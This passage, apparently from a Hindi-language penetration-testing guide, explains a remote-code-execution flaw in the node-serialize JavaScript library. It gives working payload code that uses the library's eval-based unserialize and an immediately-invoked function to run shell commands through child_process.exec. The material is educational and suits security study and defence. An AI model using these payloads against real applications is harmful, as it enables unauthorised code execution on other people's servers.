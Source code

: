 यह पुस्तकालय फ़ंक्शन को serialize करने की अनुमति देती है। उदाहरण:
```javascript
var y = {
"rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

The **serialised object** will looks like:
```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```
आप उदाहरण में देख सकते हैं कि जब एक फ़ंक्शन को serialize किया जाता है तो serialized object में `_$$ND_FUNC$$_` फ़्लैग जोड़ दिया जाता है।

फ़ाइल `node-serialize/lib/serialize.js` में आप इसी फ़्लैग को और उसका उपयोग करने का कोड देख सकते हैं।
![](<../../.gitbook/assets/image (351).png>)
![](<../../.gitbook/assets/image (446).png>)

जैसा कि आप पिछले कोड खंड में देख सकते हैं, **अगर फ्लैग मिल जाता है** तो `eval` का उपयोग फ़ंक्शन को डीसीरियलाइज़ करने के लिए किया जाता है, इसलिए मूल रूप से **उपयोगकर्ता इनपुट `eval` फ़ंक्शन के अंदर का उपयोग किया जा रहा है**।

हालांकि, **केवल फ़ंक्शन को सीरियलाइज़** करने से इसे क्रियान्वित नहीं किया जाएगा क्योंकि इसके लिए कोड का कुछ हिस्सा **हमारे उदाहरण में `y.rce` को कॉल करना आवश्यक होगा और यह बहुत ही **असंभावनीय** है।\
वैसे, आप सीरियलाइज़ किए गए ऑब्जेक्ट को ऑटो एक्सीक्यूट करने के लिए **कुछ ब्रैकेट जोड़ सकते हैं**।\
कोड के अगले खंड में **अंतिम ब्रैकेट का ध्यान दें** और कैसे `unserialize` फ़ंक्शन स्वचालित रूप से कोड को निष्पादित करेगा:
```javascript
var serialize = require('node-serialize');
var test = {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"};
serialize.unserialize(test);
```
जैसा पहले संकेतित किया गया था, यह पुस्तकालय `_$$ND_FUNC$$_` के बाद कोड प्राप्त करेगी और `eval` का उपयोग करके इसे **क्रियान्वित** करेगी। इसलिए, **कोड स्वचालित रूप से क्रियान्वित करने** के लिए आप **फ़ंक्शन निर्माण** भाग और अंतिम वाक्यांश को हटा सकते हैं और **बस निम्नलिखित उदाहरण में एक JS वनलाइनर को क्रियान्वित** कर सकते हैं:
```javascript
var serialize = require('node-serialize');
var test = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) })"}';
serialize.unserialize(test);
```
आप इस **[यहाँ](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)** और जानकारी पा सकते हैं कि इस वंरुल्नरबिलिटी को कैसे उत्पादित किया जा सकता है।
